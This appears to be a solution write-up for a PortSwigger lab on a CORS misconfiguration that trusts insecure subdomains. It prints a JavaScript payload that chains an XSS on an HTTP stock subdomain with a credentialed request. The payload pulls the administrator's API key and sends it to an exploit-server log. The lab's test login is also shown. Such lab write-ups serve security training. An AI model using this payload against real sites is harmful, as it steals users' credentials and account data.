





This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

We can see that the request is being sent, which may include CORS:


Retrieving the contents from a subdomain is allowed:

And indeed, is reflected in the ACAO header.

We have a functionality that is running over HTTP (plain), and it is the "check stock" functionality, which is made to a subdomain:


If we get a XSS in this subdomain, we can get the API key in clear text. We just create a script like the previous ones, but in the vulnerable XSS field:
```javascript
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

This script will made the victim perform the XSS attack, retrieve the API key as the CORS misconfiguration allows it, and send the result to our exploit server.


We can get the info in the history:
